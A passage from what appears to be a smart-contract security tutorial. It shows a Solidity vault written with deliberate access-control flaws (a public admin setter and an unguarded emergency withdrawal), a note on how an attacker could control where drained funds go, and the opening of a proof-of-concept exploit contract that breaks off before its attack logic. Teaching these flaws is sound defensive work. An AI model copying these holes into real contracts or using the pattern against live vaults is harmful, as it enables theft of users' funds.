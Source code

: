 ```solidity
    /// @notice Vulnerable, public admin assignment
    /// @dev Anyone can call this to become admin.
    function setAdmin(address _newAdmin) external {
        admins[_newAdmin] = true;
    }

    /// @notice Correctly restricted, but attacker can grant self this role
    /// @dev Only admins can call this function.
    function setManager(address _newManager) external {
        require(admins[msg.sender], "Not an admin");
        managers[_newManager] = true;
    }

    /// @notice Function with a missing access control check
    /// @dev Anyone can call this to drain the vault.
    function emergencyWithdraw(address token, uint256 amount) external {
        require(IERC20(token).transfer(treasury, amount), "Withdrawal failed");
    }

    /// @notice A seemingly protected function, but still exploitable
    /// @dev Only managers can call this function.
    function deposit(uint256 amount) external {
        require(managers[msg.sender], "Not a manager");
        this.mint(msg.sender, amount); // external call to MockERC20.mint 
    }
}
```

### Important note on `emergencyWithdraw`

`emergencyWithdraw` sends tokens to the contract's `treasury` variable. If the attacker can choose or control `treasury` before calling `emergencyWithdraw`, they can ensure withdrawn funds end up in an address they control. If `treasury` is a benign address, the attacker still drains the vault - funds leave vault control regardless.

## Exploit (PoC contract)
### `BlackWidowExploit.sol` 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import {RedRoomVault} from "./RedRoomVault.sol";
import {MockERC20} from "../../src/All-in-One-Access-Control/MockERC20.sol";

/// @title BlackWidowExploit
/// @notice A contract to demonstrate how an attacker can exploit the RedRoomVault's vulnerabilities.
/// @dev Educational/demo code only.
contract BlackWidowExploit {
    RedRoomVault public vault;
    MockERC20 public mockToken;
    address payable public attacker;

    constructor(address _vault, address _mockToken, address payable _attacker) {
        vault = RedRoomVault(_vault);
        mockToken = MockERC20(_mockToken);
        attacker = _attacker;
    }
    
    /// @notice Executes the full exploit chain against the vulnerable vault.
    function exploitVault() external {
```